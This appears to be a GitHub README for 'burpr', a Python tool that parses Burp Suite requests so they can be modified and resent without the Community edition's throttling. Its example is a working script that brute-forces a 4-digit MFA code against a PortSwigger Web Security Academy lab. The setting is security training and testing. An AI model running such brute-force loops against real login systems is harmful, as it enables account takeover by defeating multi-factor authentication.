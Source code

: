 # What is it
A Burp Suite request parser, used for aid in assessing application security functionality.

# Why I wrote it
To bypass the throttling 'Burp Suite Community' does to the intruder.

# Usage
Use burpr.py module to parse the Burp Suite copied request. Then use the created object to extract headers and body.

Supports parsing requests as strings and as .txt files.

```python
import burpr

# Load from string
req = burpr.parse_string(req_string)

# Load from file
req = burpr.parse_file(req_file_path)

# clone the request
req_clone = burpr.clone(req)

# change protocol to http1.1
req_clone.set_protocol(burpr.protocols.HTTP1_1)

# change transport to http
req_clone.set_transport(burpr.transports.HTTP)

# modify the header
req_clone.set_header("Cookie", "session=modified_session_cookie")

# modify the body
req_clone.set_parameter("post-param", "AAABBBCCC")

# adjust Content-Length for parameter change
burpr.prepare(req_clone)

client = httpx.Client(http2=True)
res = client.post(req.url, headers=req.headers, data=req.body)
```

# Examples
## Brute force broken MFA
```python
import burpr
import httpx
import itertools

burp_request = r"""POST /login2 HTTP/2
Host: xxxx.web-security-academy.net
Cookie: verify=carlos; session=xxxx
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://xxxx.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

mfa-code=4321
"""

def generate_pin_numbers():
  return [''.join(list([str(digit) for digit in permutation])) 
          for permutation in itertools.product(list(range(0, 10)), repeat=4)]

def brute_force_broken_mfa():
  # Parse request from string
  req = burpr.parse_string(burp_request)

  # Create http client and check the protocol used
  client = httpx.Client(http2=req.is_http2)

  for pin in generate_pin_numbers():
    # Modify the mfa-code parameter
    req.set_parameter("mfa-code", pin)

    # Send the request
    res = client.post(req.url, headers=req.headers, data=req.body)

    print(res.status_code, pin)
    
    if (res.status_code != 200):
      break

brute_force_broken_mfa()
```

